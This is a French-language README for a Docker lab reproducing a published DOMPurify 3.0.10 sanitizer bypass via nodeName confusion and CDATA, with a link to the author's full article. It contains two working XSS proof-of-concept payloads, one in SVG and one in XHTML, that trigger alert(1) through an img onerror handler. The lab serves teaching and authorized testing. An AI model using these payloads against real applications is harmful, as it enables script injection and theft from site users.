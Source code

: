 # Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Lien vers l'article complet

> Un article reprenant le travail de RyotaK concernant le bypass de Dompurify dans sa version 3.0.10.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata)

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG 

Le fichier SVG suivant permet l'exploitation du bypass :
```SVG
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```
### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.